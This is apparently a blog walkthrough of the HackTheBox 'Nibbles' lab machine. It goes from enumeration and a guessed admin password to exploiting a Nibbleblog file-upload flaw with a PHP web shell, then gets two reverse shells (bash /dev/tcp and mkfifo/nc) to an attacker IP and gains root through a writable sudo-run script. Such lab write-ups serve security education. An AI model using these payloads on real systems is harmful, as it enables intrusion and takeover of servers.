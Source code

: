```yaml
---
title: "Nibbles ~ HTB Writeup"
publishedAt: "2018-07-01"
summary: "Writeup of the Nibbles HackTheBox machine."
---
```


- Creator: [@mrb3n](https://www.hackthebox.eu/home/users/profile/2984)
- Host: [hackthebox.eu](https://hackthebox.eu)

---

## Owning user

Let's start up with the usual Nmap port scan.

> `~ ❯❯❯ nmap -sC -sV 10.10.10.75`

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-25 18:52 EEST
Nmap scan report for 10.10.10.75 (10.10.10.75)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; pr
otocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds
```

Looks like we have a webserver. Let's fire up our browser and have a look.

![10.10.10.75](/static/images/nibbles-hack-the-box-writeup/10.10.10.75.png)

Hello to you too! A simple `view-source` reveals an interesting directory:

```html
<b>Hello world!</b>


<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Navigating to the new directory, we find an empty blog.

![nibbleblog](/static/images/nibbles-hack-the-box-writeup/nibbleblog.png)

Let's try to `dirb` for any suspicious files within this 'empty' blog.

> `~ ❯❯❯ dirb http://10.10.10.75/nibbleblog/`

```bash
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Jun 25 18:58:57 2018
URL_BASE: http://10.10.10.75/nibbleblog/
WORDLIST_FILES: /usr/local/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.75/nibbleblog/ ----


==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/
+ http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)

==> DIRECTORY: http://10.10.10.75/nibbleblog/content/
+ http://10.10.10.75/nibbleblog/index.php (CODE:200|SIZE:4743)

==> DIRECTORY: http://10.10.10.75/nibbleblog/languages/

==> DIRECTORY: http://10.10.10.75/nibbleblog/plugins/
+ http://10.10.10.75/nibbleblog/README (CODE:200|SIZE:4628)

==> DIRECTORY: http://10.10.10.75/nibbleblog/themes/

-----------------
END_TIME: Mon Jun 25 19:04:50 2018
DOWNLOADED: 4612 - FOUND: 3
```

The `admin.php` page seems interesting; we should have a look.

![admin](/static/images/nibbles-hack-the-box-writeup/admin.png)

A login screen. Let's give it some guessing shots to see if we can get lucky.

After a few tries, we notice that there's some sort of WAF, blacklisting users after consecutive failed authentication attempts.

![blacklist](/static/images/nibbles-hack-the-box-writeup/blacklist.png)

A few minutes later, we were able to retry.

The credentials `admin` for username and `nibbles` for password did the job, saving us from the trouble of bruteforcing our way in (using some dynamic proxy). Of course, it's Hack The Box; the machine's name always comes in handy at some point.

After conducting some research, we come accross a nibbleblog vulnerability: [CVE-2015-6967](https://seclists.org/fulldisclosure/2015/Sep/5). It turns out that we can upload any `php` script as an image in the "My image" plugin section. 

A dead simple php script should do the job:

```php
<?php

echo shell_exec($_GET['e']);
```

Once we upload our 'image' onto the bloggin platform, we can navigate to [10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=id) to see that we are now able to execute commands through our url bar!

![id](/static/images/nibbles-hack-the-box-writeup/id.png)

Evidently, we now have 'nibbler' privileges (i.e. user privileges). So, let's pop a reverse shell.

Firstly, we should create a file containing our reverse shell script inside the `/tmp/` directory, where we should logically have the appropriate permissions. 

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/echo "/bin/bash -i %3E%26 /dev/tcp/10.10.15.174/443 0%3E%261" > /tmp/reverse.txt
```

Subsequently, let's ensure that we have execute permissions to run the temporary file using `chmod 777`.

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/chmod 777 /tmp/reverse.txt
```

Finally, we can now fire up a listener on our local device using `netcat`  and execute our reverse shell file.

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/bash /tmp/reverse.txt/
```

We should now have a shell as user "nibbler":

> `root@kali:~/# nc -vlp 443`

```bash
listening on [any] 443 ...
connect to [10.10.15.174] from 10.10.10.75 [10.10.10.75] 39002
bash: cannot set terminal process group (1335): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```

We can subsequently navigate to the `/home/` directory where we can retrieve our first flag:

> `nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler`

> `nibbler@Nibbles:/home/nibbler/$ cat user.txt`

```bash
{USER_HASH_GOES_HERE}
```

## Owning root

Taking a look at the contents of nibbler's home directory, we can also find a zip folder called `personal.zip`. Let's try unzipping it.

> `nibbler@Nibbles:/home/nibbler/$ ls`

```bash
personal.zip
user.txt
```

> `nibbler@Nibbles:/home/nibbler/$ unzip personal.zip`

```bash
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

The archive inflated a new file called `monitor.sh`. Let's navigate to its directory.

> `nibbler@Nibbles:/home/nibbler/$ cd personal/stuff`

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ ls -la`

```bash
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

The file contains a bash script called [tecmint_monitor.sh](https://github.com/atarallo/TECMINT_MONITOR/blob/master/tecmint_monitor.sh) which, according to the creator, "monitors linux health"; that's beside the point though. Now, let's modify the contents of the file into a reverse shell script and try to run it as `root`. 

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ sed -i d monitor.sh`

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff/$ echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.174 7777 > /tmp/f" >> monitor.sh
```

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ sudo -u root monitor.sh`

We should make sure to open up a listener on the same port before running the above command and wait to see if we can get a connection.

> `root@kali:~/Desktop# nc -vlp 7777`

```bash
listening on [any] 7777 ...
connect to [10.10.15.174] from 10.10.10.75 [10.10.10.75] 49104
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

And there we have it! We now have root priviliges. Let's extract our `root.txt` hash.

```bash
# cd /root
# ls
root.txt
# cat root.txt
{ROOT_HASH_GOES_HERE}
```

I hope you enjoyed this walkthrough! Make sure to stay tuned for more *Hack The Box* writeups coming up soon!
